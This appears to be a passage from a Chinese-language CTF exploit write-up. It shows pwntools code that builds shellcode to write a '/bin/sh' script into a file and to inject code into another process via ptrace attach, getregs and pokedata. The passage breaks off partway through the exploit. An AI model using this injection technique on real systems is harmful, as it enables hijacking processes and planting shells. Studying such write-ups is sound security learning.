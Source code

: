 于是我又尝试了加上了`-static`静态编译, 但是静态编译后整个文件太大了, 还是需要手动调整, 效率依然比较低

最后我还是从本文开头的文章中的exp找到了解决办法(虽然我不是很喜欢这种解决办法)
```python
PTRACE_POKEDATA = 5

power_shellcode +=f"mov r12, {code[i]}"
power_shellcode +=shellcraft.ptrace(PTRACE_POKEDATA, target_pid, "r13", "r12")
power_shellcode +=f"add r13, 8"
```
即通过shellcraft构造, 并且我没想到的是参数居然还可以指定寄存器, 其实比我想象的还是好用
(需要手写的shellcode还可以简单的通过加的方式加上)

## exp
```python
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    os = "linux",
    arch = "amd64",
    log_level="debug",
)

final_shellcode  = shellcraft.open("file", 513)
final_shellcode += shellcraft.write(3, "#!/bin/sh\n/bin/sh\n", 18)
final_shellcode += shellcraft.close(3)
final_shellcode = asm(final_shellcode)
final_shellcode += b'\x90'*(8 - (len(final_shellcode) % 8))

code = []
print(hex(len(final_shellcode)))
for i in range(0, len(final_shellcode), 8):
    long = 0
    tmp = final_shellcode[i:i+8]
    for j in range(0, 8, 1):
        long |= tmp[j] << (8*j)
    code.append(long)
print(code)

target_pid = 38621

PTRACE_ATTACH = 16
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_POKEDATA = 5
PTRACE_CONT = 7
PTRACE_DETACH = 17
rip_offset = 128
rcx_offset = 88
regs_offset = 0x200

power_shellcode = shellcraft.ptrace(PTRACE_ATTACH, target_pid, 0, 0)
power_shellcode +=shellcraft.wait4(target_pid, 0, 0, 0)

power_shellcode +=f"""
sub rsp, {regs_offset}
mov r15, rsp
"""

power_shellcode +=shellcraft.ptrace(PTRACE_GETREGS, target_pid, 0, "r15")
power_shellcode +=f"""
lea r14, [r15+{rcx_offset}]
mov r13, [r14]
"""
```